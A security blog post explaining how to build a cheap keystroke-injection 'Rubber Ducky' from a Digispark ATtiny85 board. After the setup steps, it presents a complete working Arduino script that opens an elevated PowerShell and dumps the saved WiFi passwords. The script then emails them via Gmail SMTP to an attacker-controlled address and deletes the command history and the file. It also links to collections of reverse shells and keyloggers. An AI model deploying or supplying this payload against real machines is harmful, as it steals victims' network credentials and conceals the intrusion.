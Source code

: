 ```yaml
---
layout: post
title: £5 Rubber Ducky
author: TDSSEC
date: 2023-02-07 11:33:00 +0800
categories: [Physical Tools, DIY Rubber Ducky]
tags: [USB]
math: true
mermaid: true
image:
  path: /2023-02-07-5-Quid-Rubber-Ducky/attiny85-usb.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: ATtiny85 board
---
```


## USB Rubber Ducky
TL;DR A USB drive that disguises itself as a Keyboard, that injects keystrokes allowing an attacker to install backdoors, capture credentials or remotely obtain sensitive files.

The rubber ducky by [Hak5](https://shop.hak5.org/products/usb-rubber-ducky) is amazing, but getting your hands on one in the UK can be a struggle. Not only this, but the resale price of $99 as of today's post makes this a lot more expensive than simply building one for yourself for less than £5!

## £5 D.I.Y Prerequisites
- [Digispark Attiny 85](https://www.instructables.com/Digispark-Attiny-85-With-Arduino-IDE/) - a programmable board with 6kb memory (after 2kb goes to the bootloader)
- [Arduino IDE](https://www.arduino.cc/en/software)- Open-source IDE allowing you to write and upload code to the board.   
- [Digistump Drivers](https://github.com/digistump/DigistumpArduino/releases) - It's needed..!

## Heads up about shorting this device.  
Taken from [DigiStump.com](https://digistump.com/wiki/digispark/tutorials/connecting) directly:  

> *The Digispark, due to its small size and low cost is not as robust as a full blown Arduino.*  
*When testing a new circuit we recommend that you test it with an external power supply first. Connecting a shorted circuit to the Digispark and connecting it to your computer could damage your computer and/or its USB ports. We take no responsibility for damage to your machine as a result of the use of a Digispark.*  
*We strongly recommend connecting your Digispark through a USB hub which will often limit the damage caused by a short circuit to the usb hub. For the record, we've found many computers have usb fuses built in, and when we blew them on our 27“ Mac monitor, thankfully they reset and everything worked after a power down.*  
*The Digispark does not have short circuit or reverse polarity protection. Connecting power to the Digispark power pins backwards will almost certainly destroy it.*
{: .prompt-danger }

I have been using a simple USB to USB cable:  
![USB to USB](/2023-02-07-5-Quid-Rubber-Ducky/usb-to-usb.jpeg){: width="500" height="102"}
## Drivers installation
Install the appropriate drivers for your Operating System in use. Without these installed, you might find that unless your Attiny85 came with a USB bootloader pre-installed, your OS wont detect this device!

## Arduino Setup
### Installation
1. Download and install Arduino.
Next, we need to download the boards for Digispark.  
3. Open **_File>Preferences_** and add the below URL to the **_Additional Board Manager URL_** section.
`http://digistump.com/package_digistump_index.json`
![preferences](/2023-02-07-5-Quid-Rubber-Ducky/preferences.png){: width="1024"}
4. Click OK...
5. Select **_Tools>Boards>Board Manager_**.
6. Search for **Digistump AVR Boards** and Install
![DigiStump AVR board](/2023-02-07-5-Quid-Rubber-Ducky/dvr-board-manager.png){: width="1024"}

### Choosing the Digistump AVR Board  
1. Open **_Tools>Boards>Digistump AVR Board_**.
2. Select **Digispark (Default - 16.5mhz).**
![DigiSpark 16.5mhz](/2023-02-07-5-Quid-Rubber-Ducky/digispark-board-choice.png){: width="1024"}

## Upload Test Script to the board  
With the drivers installed, as well as the Arduino setup, lets build and upload a built in keyboard test script.  
**Do not plug the Arduino in until step 5**.
1. Have the Digispark (Default - 16.5mhz) board selected within Arduino  
2. Open **_File>Example>DigisparkKeyboard>Keyboard_**.
![Keyboard Example](/2023-02-07-5-Quid-Rubber-Ducky/keyboard-example.png){: width="1024"}
3. Top-left select **_Verify_** button to check the code is OK.
4. Click the **_Upload_** button next to upload the code to the Arduino.
5. **Now you can plug the Arduino in**.

### Open a Text Editor  
1. Every 5 seconds, the Arduino will write "Hello Digispark!" - Confirming this has worked!

## Time to make this malicious!  
### Scripts  
A list of premade scripts are available by [DigiSpark Scripts](https://github.com/CedArctic/DigiSpark-Scripts).  
These include the ability to:
- Extract WiFi credentials and automatically email them to you
- Reverse shells
- Keyloggers
- Fork Bombs
- Account Creations
- Execute Powershell scripts
- Funny scripts to change the users mouse settings or download and play videos off YouTube (RickRoll) ...

### Recover & Email WiFi passwords Example

    //This DigiSpark script writes the wireless network credentials to a csv file and emails it.
    //Credits to p0wc0w.

    //NOTE about the New Version of this script: The older script stopped working on newer builds of Windows 10
    //since Windows 10 now require an elevated cmd or powershell to execute these commands. This version should
    //be faster (better, stronger...) and should work on all builds of Windows 10. For previous versions
    //of Windows or simply older builds of Windows 10, the other version works like a charm.

    #include "DigiKeyboard.h"
    void setup() {
    }

    void loop() {
      DigiKeyboard.sendKeyStroke(0);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("(netsh wlan show profiles) | Select-String '\\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=$name key=clear)}  | Select-String 'Key Content\\W+\\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -Path temp.csv;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(3000);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("$SMTPInfo = New-Object Net.Mail.SmtpClient('smtp.gmail.com', 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('GMAIL_USERNAME', 'GMAIL_PASSWORD'); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = 'SENDER_MAIL'; $ReportEmail.To.Add('RECEIVER_MAIL'); $ReportEmail.Subject = 'DigiSpark Report'; $ReportEmail.Body = 'Attached is your report. - Regards Your Digispark'; $ReportEmail.Attachments.Add('temp.csv'); $SMTPInfo.Send($ReportEmail);exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_X, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_A);
      DigiKeyboard.delay(1000);
      DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del (Get-PSReadlineOption).HistorySavePath;exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
      DigiKeyboard.delay(500);
      DigiKeyboard.print("cmd");
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(500);
      DigiKeyboard.print(F("del temp.csv"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      DigiKeyboard.delay(100);
      DigiKeyboard.print(F("exit"));
      DigiKeyboard.sendKeyStroke(KEY_ENTER);
      for(;;){ /*empty*/ }
      }
